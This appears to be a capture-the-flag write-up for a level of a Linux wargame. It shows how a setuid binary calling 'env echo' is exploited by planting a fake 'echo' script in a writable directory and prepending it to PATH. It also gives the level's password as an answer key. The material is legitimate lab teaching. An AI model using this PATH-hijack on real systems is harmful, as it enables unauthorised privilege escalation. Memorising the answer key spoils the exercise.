 # LEVEL 03

## 💡 Explanation

In this level we can observe, with a simple ```ls -la``` in the home, that we have:
1. A binary with sticky rights, that prints us 'Exploit me' when running it.
2. When Launching ```strings level03``` we find a command that give us the solution to the problem....:
```/usr/bin/env echo exploit me```

In this level we have to:
1. Find a folder where we have rights to create files
2. In this folder, modify the command `echo` to make it run `getflag` with the flag03 user permissions
3. Add this new command to our PATH so that the binary will run this new echo command with the flag03 user permissions.


## 👾 Commands

```
strings level03
which getflag
export PATH=/var/crash:$PATH
echo "getflag > /var/crash/flag" > /var/crash/echo
chmod +x /var/crash/echo
./level03
cat /var/crash/flag
```

## 🔍 Resources

- [Linux strings command](https://www.javatpoint.com/linux-strings-command#:~:text=Linux%20strings%20command%20is%20used,text%20from%20an%20executable%20file.)
- [Linux env command](https://www.computerhope.com/unix/uenv.htm#:~:text=env%20is%20a%20shell%20command,without%20modifying%20the%20current%20one.)

## 🔥 Password
`qi0maab88jeaj46qoumi7maus`
